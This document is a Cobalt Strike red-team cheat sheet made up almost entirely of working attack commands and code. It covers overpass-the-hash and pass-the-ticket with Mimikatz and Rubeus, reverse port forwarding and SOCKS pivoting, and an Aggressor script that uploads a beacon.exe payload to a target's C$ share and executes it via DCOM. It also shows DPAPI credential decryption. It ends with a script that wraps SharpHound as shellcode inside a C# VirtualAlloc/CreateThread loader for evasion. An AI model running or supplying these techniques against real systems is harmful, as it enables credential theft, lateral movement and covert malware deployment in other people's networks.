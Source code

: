 # Cobalt Strike

- [https://www.cobaltstrike.com/support](https://www.cobaltstrike.com/support)
- [https://www.cobaltstrike.com/aggressor-script/functions.html](https://www.cobaltstrike.com/aggressor-script/functions.html)
- [https://reconshell.com/list-of-awesome-cobaltstrike-resources/](https://reconshell.com/list-of-awesome-cobaltstrike-resources/)
- [https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)




## P2P Beacons

Beacon TCP and Beacon SMB are Peer-to-Peer beacons which means they're used to chain a connection to an existent beacon. They act like bind shells and waits for the attacker to connect to them.

Connect to a TCP beacon:

```
beacon> connect <IP> <PORT>
```

Connect to an SMB beacon:

```
beacon> link <IP>
```




## Overpass-the-Hash

More opsec PtH than builtin `pth` command (which does the Mimikatz `sekurlsa::pth` thing with named pipe impersonation):

```
beacon> mimikatz sekurlsa::pth /user:snovvcrash /domain:megacorp.local /ntlm:fc525c9683e8fe067095ba2ddc971889
beacon> steal_token 1337
```

Same with Rubeus (must be in elevated context):

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
beacon> steal_token 1337
```

Use Rubeus with lower privileges:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec

PS > [System.IO.File]::WriteAllBytes("C:\Windows\Tasks\tgt.kirbi", [System.Convert]::FromBase64String("<BASE64_TICKET>"))
Or
$ echo -en "<BASE64_TICKET>" | base64 -d > tgt.kirbi

beacon> run klist
Or
beacon> execute-assembly Rubeus.exe klist

beacon> make_token MEGACORP\snovvcrash dummy_Passw0rd!
beacon> kerberos_ticket_use C:\Windows\Tasks\tgt.kirbi
```




## Pass-the-Ticket

Create a sacrificial process, import the TGT into its logon session and steal its security token:

```
beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
beacon> execute-assembly Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
beacon> beacon> steal_token 1337
```




## Pivoting

Make any traffic hitting port **8443** on Victim to be redirected to **10.10.13.37** on port **443** (traffic flows through the Team Server):

```
beacon> rportfwd 8443 10.10.13.37 443
```

Make any traffic hitting port **8080** on Victim to be redirected to **localhost:8080** on Attacker (traffic flows through the CS client):

```
beacon> rportfwd_local 8080 127.0.0.1 80
```

Extending `jump` with [Invoke-DCOM.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1):

```powershell
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

Forward SOCKS server's port from team server to the client:

```
beacon> socks 1080
$ ssh -tt -v -L 9050:localhost:1080 root@teamserver
```




## Credentials



### DPAPI

List credential blobs:

```
beacon> ls C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials
```

List vault credentials:

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> mimikatz vault::list
```

Check which master keys correspond to credential blobs (look for **guidMasterKey** field with GUID):

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB>
```

The master key is stored here:

```
beacon> ls C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID>
```

Decrypt the master key via RPC on the Domain Controller and show it:

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID> /rpc
```

Decrypt the blob with decrypted master key:

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB> /masterkey:<MASTERKEY>
```




## BloodHound

* [https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146)

Grab the latest version of [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe), convert it to a shellcode with donut, insert bytes in a C# skeleton and cross-compile it for use in Windows with [Mono](https://linux.die.net/man/1/mcs) compiler:

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/penetrarnya-tm/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}
